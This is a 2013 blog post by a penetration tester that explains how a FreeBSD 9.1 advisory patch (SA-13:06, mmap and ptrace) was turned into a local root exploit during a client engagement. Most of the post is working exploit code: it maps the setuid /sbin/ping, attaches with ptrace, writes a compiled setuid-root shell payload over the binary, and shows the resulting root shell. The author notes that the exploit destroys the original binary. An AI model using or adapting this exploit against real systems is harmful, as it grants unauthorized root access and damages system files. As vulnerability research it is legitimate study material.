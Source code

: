 +++
title = "I feel lucky - or why I wrote a FreeBSD 1-day in one day"
author = "hugsy"
date = 2013-06-20T00:00:00Z
updated = 2013-06-20T00:00:00Z

[taxonomies]
categories = ["research"]
tags = ["freebsd", "1day", "lpe"]
+++

Sometimes life gives you eggs for free, you just need to spend some time making an omelet. That's exactly what happened to me on a recent engagement for a client: a typical PHP webapp full of holes left me with a nice stable shell access.

But at that point I was stuck: I had a limited account (`www`) on this FreeBSD 9.1 (almost) up-to-date box, and interestingly  the privilege separation was done correctly enough to prevent me from getting `root` access simply by abusing the usual suspects (weak FS permission, setuid bins, privileged scripts and the likes).

So it was with little hope I decided to take a look at the [recent advisories for FreeBSD](https://www.freebsd.org/security/advisories/) which I really like because they are well maintained. One title struck my eye immediately: [SA-13:06.mmap - Privilege escalation via `mmap`](https://www.freebsd.org/security/advisories/FreeBSD-SA-13:06.mmap.asc), published the day right before!

I decided to look into it at first with not much hope, thinking the exploit would be crazy hard to trigger and heavily deep inside FreeBSD kernel. The description was actually (on purpose?) quite generic

> Due to insufficient permission checks in the virtual memory system, a tracing process (such as a debugger) may be able to modify portions of the traced process's address space to which the traced process itself does not have write access.

But the [patch](http://security.FreeBSD.org/patches/SA-13:06/mmap.patch) gave me a better idea of the issue:

```patch
Index: sys/vm/vm_map.c
===================================================================
--- sys/vm/vm_map.c	(revision 251636)
+++ sys/vm/vm_map.c	(working copy)
@@ -3761,6 +3761,12 @@ RetryLookup:;
         vm_map_unlock_read(map);
         return (KERN_PROTECTION_FAILURE);
     }
+	if ((fault_typea & VM_PROT_COPY) != 0 &&
+	    (entry->max_protection & VM_PROT_WRITE) == 0 &&
+	    (entry->eflags & MAP_ENTRY_COW) == 0) {
+		vm_map_unlock_read(map);
+		return (KERN_PROTECTION_FAILURE);
+	}

     /*
      * If this page is not pageable, we have to get it for all possible
```

It kindda gave a good pointer of where to start: the usual rule for setuid dictates that a write access should immediately imply losing the elevated privilege. But this is where the bug was: by `mmap` a setuid binary (which any user can do), I can then choose to `ptrace` the process, and use `PT_WRITE` command to overwrite the `mmap`-ed memory, effectively overwriting the setuid binary!

{% note() %}
I was in a rush, so my exploit is partially destructive as I overwrite directly the setuid binary. If you choose to use it, please make a copy to be able to restore it.
{% end %}

My exploit was in 4 parts:

1. `mmap` the target binary (here I chose `/sbin/ping`)

        :::c
        int fd = open("/sbin/ping", O_RDONLY);
        caddr_t addr = mmap(NULL, LEN, PROT_READ, MAP_SHARED, fd, 0);

2. `fork` to passe to be the `mmap`-ed address to a process I can attach to using `ptrace()`

3. in the parent process, I attach to the child process and then prepare a basic payload to substitute the original code with

        :::c
        if (ptrace(PT_ATTACH, pid, 0, 0) < 0)
        {
            perror("[-] ptrace(PT_ATTACH) failed");
            return;
        }
        [...]
        int fd = open("./sc.c", O_WRONLY|O_CREAT,  S_IRUSR | S_IWUSR | S_IRGRP | S_IWGRP | S_IROTH);
        write(fd,
            "#include <stdio.h>\n"\
            "main(){ "\
            "char* s[]={\"/bin/sh\",NULL};"\
            "setuid(0);execve(s[0],s,0); }\n",
            84);
        close(fd);
        system("gcc -o ./sc ./sc.c");

4. all done, we could now copy our payload 1 DWORD at a time using `ptrace(PT_WRITE_D)`

        :::c
        fd = open("./sc", O_RDONLY);
        while (1) {
            int a;
            int n = read(fd, &a, sizeof(int));
            if (n <= 0) break;
            ptrace(PT_WRITE_D, pid, mmap_setuid_address+i, a);
            i+=n;
        }


Done! Simply execute the target binary to get a root shell.

```bash
 $ id
 uid=1001(user) gid=1001(user) groups=1001(user)
 $ gcc -Wall ./mmap.c && ./a.out
 [+] Saved old '/sbin/ping'
 [+] Using mmap-ed area at 0x281a4000
 [+] Attached to 3404
 [+] Copied 4917 bytes of payload to '/sbin/ping'
 [+] Triggering payload
 $ id
 uid=0(root) gid=0(wheel) egid=1001(user) groups=1001(user),0(wheel)
```

By nature, this exploit is very stable and I was able to report that I had `root` access to my customer :)
I was undeniably lucky to find exactly the privilege escalation I need just exactly when I needed it (kudos to Konstantin Belousov & Alan Cox for the finding), but it also taught me that there can be a huge difference of postponing applying patches, even if for one day...

Cheers mates!

PS: for the full [quick'n dirty exploit](https://gist.github.com/hugsy/5933831)
